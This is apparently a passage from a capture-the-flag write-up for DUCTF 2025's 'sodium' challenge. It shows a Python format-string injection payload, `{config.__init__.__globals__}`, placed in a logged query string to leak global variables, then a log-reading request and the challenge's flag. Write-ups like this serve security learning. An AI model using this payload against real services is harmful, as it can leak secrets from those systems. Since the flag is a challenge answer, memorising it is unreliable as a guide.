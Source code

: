 <1> Query string parameters are split by the `&` symbol.
<2> Each parameter is logged.

The read the flag, we inject `{config.__init__.__globals__}` into the logs such that, during the second format, the dunder methods of the actual config object will be used to leak the gloal variables.

```
GET https://sodium-d07b1bc45451f940.iso.2025.ductf.net/stats?a={config.__init__.__globals__}
```

Now we can read the logs to get the flag!

```
GET https://sodium-d07b1bc45451f940.iso.2025.ductf.net/stats?get_log=true
```

![flag](/images/writeups/DUCTF2025/sodium/flag.png)

Flag: `DUCTF{th3y_s33_m3_smuggl1ng_4nd_ch41n1ng}`
